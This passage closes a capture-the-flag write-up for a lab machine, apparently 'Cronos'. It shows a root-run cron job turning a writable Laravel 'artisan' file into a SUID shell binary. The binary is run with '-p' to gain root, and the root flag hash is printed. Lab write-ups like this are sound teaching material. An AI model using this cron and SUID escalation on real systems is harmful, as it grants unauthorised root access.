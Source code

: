 ```
www-data@cronos:/var/www/laravel$ ls -la artisan
ls -la artisan
-rwxr-xr-x  1 www-data www-data    1671 Nov 29 12:35 artisan
www-data@cronos:/var/www/laravel$ 
```

Wait up to a minute for the cron job to run. Once it has run, there should be a SUID binary called "priv" in the directory:

```
www-data@cronos:/var/www/laravel$ ls -la priv
ls -la priv
-rwsr-xr-x  1 root     root     1037528 Nov 29 12:36 priv
www-data@cronos:/var/www/laravel$ 
```

Finally, we can run the new SUID binary to get a shell as root, and grab the root flag:

```
www-data@cronos:/var/www/laravel$ ./priv -p
./priv -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0

```

## Resources

{% embed url="https://laravel.com/docs/8.x/scheduling" %}
